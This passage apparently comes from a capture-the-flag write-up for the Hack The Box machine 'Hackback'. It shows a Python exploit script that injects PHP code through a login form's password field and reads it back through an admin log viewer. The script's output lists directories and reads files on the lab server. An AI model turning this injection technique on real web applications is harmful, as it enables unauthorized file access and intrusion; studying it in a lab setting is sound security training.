 ```python
		"username": "test@test.com",
		"password": "<?php print_r(scandir('%s')); ?>" % sys.argv[1],
		"submit": ""
	}
	r = requests.post("http://www.hackthebox.htb", data=data)
	print r.status_code

	# Get output
	r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79", allow_redirects=False);
	print r.text

elif len(sys.argv) == 3: # Fetch a file	
	data = {
		"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
		"username": "test@test.com",
		"password": "<?php echo(file_get_contents('%s')); ?>" % (sys.argv[1]+'/'+sys.argv[2]),
		"submit": ""
	}
	r = requests.post("http://www.hackthebox.htb", data=data)
	print r.status_code

	# Get output
	r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79", allow_redirects=False);
	print r.text
	with open("out.txt", "wb") as f:
		f.write((r.text.encode('utf-16')))
```

The output of the script looks like this when enumerating directories:

```
# ./hackback_read.py ..
200
200
[04 March 2019, 12:49:47 AM] 10.10.14.23 - Username: test@test.com, Password: Array
(
    [0] => .
    [1] => ..
    [2] => 2bb6916122f1da34dcd916421e531578
    [3] => App_Data
    [4] => aspnet_client
    [5] => css
    [6] => img
    [7] => index.php
    [8] => js
    [9] => logs
    [10] => web.config
    [11] => web.config.old
)

# ./hackback_read.py ../..
200
200
[04 March 2019, 12:49:54 AM] 10.10.14.23 - Username: test@test.com, Password: Array
(
    [0] => .
    [1] => ..
    [2] => admin
    [3] => facebook
    [4] => hackthebox
```